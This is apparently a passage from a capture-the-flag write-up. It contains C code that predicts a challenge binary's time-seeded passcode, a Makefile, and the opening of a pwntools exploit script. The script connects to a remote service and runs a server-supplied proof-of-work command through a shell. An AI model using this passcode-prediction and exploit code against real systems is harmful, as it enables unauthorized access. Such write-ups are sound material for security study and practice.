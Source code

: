 ## Getting the Passcode (`passcode.c`)
```c
// this code is extracted from IDA decompilation.
#include <stdlib.h>
#include <time.h>
#include <stdio.h>

unsigned int passcode() {
    unsigned int v2;

    srand(time(0));

    for (int i = 0; i <=6; ++i)
        rand();
    
    v2 = rand();
    for (int j = rand() % 0x64; j; --j) {
        v2 = 27 * ((((32 * v2) ^ 0xf) >> 7) ^ 0x1f4); 
    }
    return v2;
}
```

## Makefile for compiling `test.c` and `passcode.c`
```makefile
all:
	gcc -masm=intel -o challenge/insidious source.c -lseccomp
	x86_64-linux-musl-gcc -masm=intel -fno-pie -no-pie -static -o exploit/test exploit/test.c
	gcc -shared ./exploit/passcode.c -o exploit/passcode.so
clean: 
	rm challenge/insidious exploit/passcode.so exploit/test
```

## Final Exploit
```python
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL, c_uint32
import gzip

os.chdir(os.path.dirname(os.path.abspath(__file__)))

context.arch        = 'amd64'

THRESHOLD_PARAM     = None
TEST_ITERATIONS     = 0x10
CHUNK_SIZE          = 0x250
    
# get passcode function
lib                     = CDLL('./passcode.so')
leak_passcode           = lib.passcode
leak_passcode.argtypes  = []
leak_passcode.restype   = c_uint32

def conn():
    if args.REMOTE:
        p = remote(*args.REMOTE.split(':'))
        if b"proof of work" in p.recvline():
            with log.progress("solving POW") as prog:
                with context.silent:
                    sol = process(p.recvline().decode().strip(), shell=True).recvline()
```